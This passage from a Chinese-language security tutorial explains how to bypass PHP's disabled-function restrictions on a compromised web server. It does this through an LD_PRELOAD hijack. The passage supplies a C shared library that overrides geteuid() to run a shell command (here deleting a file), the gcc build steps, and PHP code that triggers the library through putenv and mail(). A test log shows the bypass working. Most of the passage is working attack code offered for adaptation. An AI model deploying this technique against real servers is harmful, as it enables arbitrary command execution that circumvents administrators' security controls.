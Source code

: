 ```
    19: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@GLIBC_2.2.5 (2)
    20: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strlen@GLIBC_2.2.5 (2)
......

```

从中选取一个合适的库函数后我们就可以进行测试了：

1.  编制我们自己的动态链接程序。
2.  通过putenv来设置LD_PRELOAD，让我们的程序优先被调用。
3.  在webshell上用mail函数发送一封邮件来触发。

我们来测试删除一个新建的文件，这里我们选取geteuid()函数来改造，先在/tmp目录新建一个文件check.txt。

编写hack.c：

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 

void payload() {
        system("rm /tmp/check.txt");
}   

int  geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}

```

当这个共享库中的geteuid被调用时，尝试加载payload()函数，执行命令。这个测试函数写的很简单，实际应用时可相应调整完善。在攻击机上（注意编译平台应和靶机平台相近，至少不能一个是32位一个是64位）把它编译为一个位置信息无关的动态共享库：

```
$ gcc -c -fPIC hack.c -o hack 

$ gcc -shared hack -o hack.so

```

再上传到webshell上，然后写一段简单的php代码：

```
<?php
putenv("LD_PRELOAD=/var/www/hack.so");
mail("a@localhost","","","","");
?>

```

在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。 本地测试效果如下：

```
[yiyang@bogon Desktop]$ touch /tmp/check.txt
[yiyang@bogon bin]$ ./php mail.php
sendmail: warning: the Postfix sendmail command has set-uid root file permissions
sendmail: warning: or the command is run from a set-uid root process
sendmail: warning: the Postfix sendmail command must be installed without set-uid root file permissions
sendmail: fatal: setgroups(1, &500): Operation not permitted
[yiyang@bogon bin]$ cat /tmp/check.txt
cat: /tmp/check.txt: No such file or directory

```
